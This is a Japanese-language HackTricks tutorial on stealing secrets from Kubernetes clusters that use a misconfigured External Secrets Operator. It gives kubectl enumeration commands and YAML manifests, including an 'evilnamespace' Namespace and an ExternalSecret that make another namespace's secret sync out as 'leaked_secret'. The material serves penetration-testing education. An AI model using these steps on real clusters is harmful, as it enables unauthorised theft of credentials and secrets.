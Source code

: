 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**このページの元の著者は** [**Fares**](https://www.linkedin.com/in/fares-siala/)

このページでは、誤って構成されたESOまたはESOを使用して秘密を同期するアプリケーションから秘密を盗む方法についてのいくつかのポイントを示します。

## 免責事項

以下に示す技術は、特定の条件が満たされる場合にのみ機能します。たとえば、あなたが所有または侵害した名前空間で秘密を同期するために必要な要件に依存します。自分で見つける必要があります。

## 前提条件

1. 名前空間での管理者権限を持つkubernetes / openshiftクラスターへの足場
2. クラスターレベルでの少なくともExternalSecretへの読み取りアクセス
3. ESOがあなたの秘密を同期するために必要なラベル/アノテーションまたはグループメンバーシップがあるかどうかを確認します。運が良ければ、定義された秘密を自由に盗むことができます。

### 既存のClusterSecretStoreに関する情報収集

このリソースを読むのに十分な権限を持つユーザーがいると仮定して、まず既存の_**ClusterSecretStores**_をリストアップすることから始めます。
```sh
kubectl get ClusterSecretStore
```
### ExternalSecretの列挙

ClusterSecretStoreの名前が _**mystore**_ であると仮定します。その関連するexternalsecretを列挙します。
```sh
kubectl get externalsecret -A | grep mystore
```
_このリソースは名前空間スコープであるため、どの名前空間を探すべきかすでに知っていない限り、-Aオプションを追加してすべての名前空間を横断して探してください。_

定義されたexternalsecretのリストが得られるはずです。_**mysecret**_というexternalsecretオブジェクトが_**mynamespace**_名前空間によって定義され、使用されていると仮定しましょう。それが保持している秘密の種類について、もう少し情報を集めてください。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 部品の組み立て

ここから、1つまたは複数のシークレット名（Secretリソースで定義されているように）を取得できます。出力は次のようになります:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
これまでに得たものは次のとおりです：

- ClusterSecretStoreの名前
- ExternalSecretの名前
- シークレットの名前

必要なものがすべて揃ったので、ExternalSecretを作成できます（最終的には、新しいシークレットを同期させるために必要な前提条件を満たすために、新しいNamespaceをパッチまたは作成することになります）：
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
数分後、同期条件が満たされていれば、あなたのネームスペース内で漏洩したシークレットを表示できるはずです。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参考文献

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}

